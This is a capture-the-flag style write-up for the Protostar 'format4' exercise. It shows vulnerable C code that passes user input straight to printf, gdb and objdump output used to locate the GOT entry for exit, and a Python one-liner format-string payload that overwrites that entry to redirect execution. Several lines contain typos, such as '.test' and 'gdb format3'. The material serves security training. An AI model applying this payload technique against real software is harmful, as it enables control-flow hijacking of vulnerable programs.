 #### Protostar Format4 

##### About
%p format4 looks at one method of redirecting execution in a process.

###### Hints
* objdump -TR is your friend

This level is at /opt/protostar/bin/format4

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

Try to change the entry address of function exit() in GOT.

##### Solution
```
$ objdump -t format4 | grep hello
080484b4 g     F .test  0000001e              hello

$ objdump -TR format4 | grep exit
00000000      DF *UND* 00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   exit
08049718 R_386_JUMP_SLOT   _exit
08049724 R_386_JUMP_SLOT   exit

$ echo 'AAAA' > /tmp/payload

$ gdb format3
......
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080484d2 <+0>:    push   %ebp
0x080484d3 <+1>:    mov    %esp,%ebp
0x080484d5 <+3>:    sub    $0x218,%esp
0x080484db <+9>:    mov    0x8049730,%eax
0x080484e0 <+14>:   mov    %eax,0x8(%esp)
0x080484e4 <+18>:   movl   $0x200,0x4(%esp)
0x080484ec <+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <+32>:   mov    %eax,(%esp)
0x080484f5 <+35>:   call   0x804839c <fget@plt>
0x080484fa <+40>:   lea    -0x208(%ebp),%eax
0x08048500 <+46>:   mov    %eax,(%esp)
0x08048503 <+49>:   call   0x80483cc <printf@plt>
0x08048508 <+54>:   movl   $0x1,(%esp)
0x0804850f <+61>:   call   0x80483ec <exit@plt>
End of assembler dump
(gdb) b *0x08048503
Breakpoint 1 at 0x08048503: file format4/format4.c, line 20.
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/format4 < /tmp/payload
Breakpoint 1, 0x08048503 in vuln() at format4/format4.c:20
(gdb) x/4x $esp
0xbffffb00:     0xbffffb10      0x00000200      0xb7fd8420      0xbffffb54
(gdb) x 0xbffffb10
0xbffffb10:     0x41414141
(gdb) p (0xbffffb10 - 0xbffffb00) / 4
$1 = 4
(gdb) x/x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2
(gdb) quit

$ python -c 'print "\x24\x97\x04\x08"+"%33968x%4$hn"' | ./format4      <-- '%hn' can write only two byte
......
code execution redirected! you win
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-format/#format-4>  
<http://louisrli.github.io/blog/2012/08/29/protostar-format0/>
